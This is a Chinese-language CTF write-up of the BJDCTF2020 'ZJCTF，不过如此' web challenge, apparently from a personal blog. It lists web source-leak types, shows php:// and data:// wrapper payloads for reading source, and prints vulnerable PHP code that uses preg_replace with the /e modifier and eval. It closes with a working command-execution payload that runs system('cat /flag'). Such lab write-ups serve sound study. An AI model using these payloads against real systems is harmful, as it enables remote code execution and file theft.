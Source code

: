 **常见的Web源码泄露：**

- • git源码泄露
- • svn源码泄露
- • DS_Store 文件泄露
- • 网站备份压缩文件泄露
- • Web-INF/Web.xml 泄露
- • CVS泄露
- • hg源码泄漏
- • Bazaar/bzr泄露
- • SWP 文件泄露

很纠结要不要复习一遍web入门的基础题目 还是直接开始综合题 之前的基础部分都差不多快要忘记了

## [BJDCTF2020] ZJCTF，不过如此

![image-20241129224416484](https://img2023.cnblogs.com/blog/2759911/202411/2759911-20241129224418213-261306008.png)

file_get_contents 伪协议

题目要求读字符串 data伪协议读数据流

复习一下data协议

```
data:[<mime type>][;charset=<charset>][;base64],<encoded data>
```

data协议头 mime类型 有text/plain image/jpeg  第三部分是编码 charset=US-ASCII 后面的base64可加不加 data作为文本传参 

include 文件包含

题目提示读本地文件 php伪协议

php://filter用于读取源码：
php://input用于执行php代码

// ?text=data://text/pain,I have a dream&file=php://filter/convert.base64-encode/resource=next.php

解码源码

![image-20241129225723785](https://img2023.cnblogs.com/blog/2759911/202411/2759911-20241129225725309-1782004867.png)

<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}

foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}

如果参数过了正则匹配 当传参过后把re参数的值变为str的值 这个str的值是getflag  然后会把参数分次交给complex参数运行 cmd作为参数get—flag 

存在 /e修正符 preg_replace函数会将第二个参数当作php语句来执行  \\\1 后向引用  这里的后向引用要使用双引号 因为双引号内的函数不会被执行和替换 这个\\本身在php中指的是第一个子匹配项 也就是 ${phpinfo()} 这样会执行这个函数 

\S 匹配非空字符 

这样子就相当于是 带入了preg_replace里面执行re=str这个值 

preg_replace('/(' . $re . ')/ei','strtolower("\\1")',$str);		// 原句

preg_replace('/(' .* ')/ei','strtolower("\\1")',{${phpinfo()}});	// 输入后

但这个.在这题里面是非法字符 要换成\s 编程匹配非空字符 这个\\1本身函数中会匹配两次 所以要两个{}

{{$getFlag()}}  

payload

// next.php?\S*=${getflag()}&cmd=system('cat /flag');

![image-20241129232647189](https://img2023.cnblogs.com/blog/2759911/202411/2759911-20241129232648071-1439077320.png)